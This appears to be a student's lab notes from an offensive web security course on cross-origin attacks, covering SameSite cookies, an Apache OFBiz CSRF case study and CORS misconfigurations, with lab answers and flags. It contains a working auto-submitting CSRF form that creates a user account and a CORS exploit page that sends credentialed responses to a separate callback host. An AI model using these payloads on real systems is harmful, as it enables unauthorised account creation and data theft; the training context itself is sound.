




# **Cross-Origin Attacks**

## **Same-Origin Policy**
SOP blocks JavaScript from accessing the response (unless it has been specifically allowed by CORS).
#### **Lab 1.** Start the CORS Sandbox VM and verify you can access it. What is the value of the Server header?

Answer - waitress


## **SameSite Cookies**
SameSite=None: This instructs the browser to send the cookie on any relevant request, regardless of where or how that request originated.       

SameSite=Lax: instructs the browser not to send the cookie on cross-site requests. However, the browser will send the cookie during navigation when a user manually enters the URL in the browser or clicks a link to the site.     

SameSite=Strict: When this value is set, a browser will only include the cookie if the domain originating the request is the same as the cookie's domain.   


## **Case Study: Apache OFBiz**
CSRF Payload:

```
var xhr = new XMLHttpRequest();
xhr.open("POST", "URL", true);
xhr.withCredentials = true;
xhr.send()
```

```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
      <input type="hidden" name="enabled">
      <input type="hidden" name="partyId">
      <input type="hidden" name="userLoginId" value="csrftest">
      <input type="hidden" name="currentPassword" value="password">
      <input type="hidden" name="currentPasswordVerify" value="password">
      <input type="hidden" name="passwordHint">
      <input type="hidden" name="requirePasswordChange" value="N">
      <input type="hidden" name="externalAuthId">
      <input type="hidden" name="securityQuestion">
      <input type="hidden" name="securityAnswer">
   </form>
</body>
</html>
```

#### **Lab 1.** Start the OFBiz VM and access the Web Tools Main Page. What username is listed on this page?

Answer - admin




# **Cross-Origin Resource Sharing (CORS)**
CORS instructs a browser, via headers, which origins may access resources from the server. 

## **Weak CORS Policies - Discovery**

#### **Lab 1.** Follow the steps outlined above. What is the value of today's secret code?

Answer - 6d84973e-5995-4557-95ed-a179beb9b5a4


## **Trusting Any Origin**

#### **Lab 1.** Create an HTML page as described in this section and modify it to send a CORS request to /exercise1.

Answer - OS{anyDomainWillDo}

-  Let's try adding Origin header and check how the application responds.


- The response includes the Origin value we set and Access-Control-Allow-Credentials set to "true".

- Create cors.html with below payload and place it in /var/www/html/.
Start the apache server using command - sudo service apache2 start.
```
<html>
<head>
<script>
var url = "https://192.168.125.101/exercise1";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.169/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```

- Now access http://localhost/cors.html on browser and check  access.log of Apache.
```
sudo tail /var/log/apache2/access.log
```


- Now decode it in Burp to get the flag.


## **Improper Domain Allowlist**

#### **Lab 1.** Using curl, send a request including an Origin header to /exercise2. Find a domain that bypasses the server-side validation to obtain a flag.

Answer - OS{whichPartIsTheDomain?}

Payload:
```
curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://192.168.125.101/exercise2
```



- If using burp add below origin header.
```
Origin: http://www.offensive-security.com
```

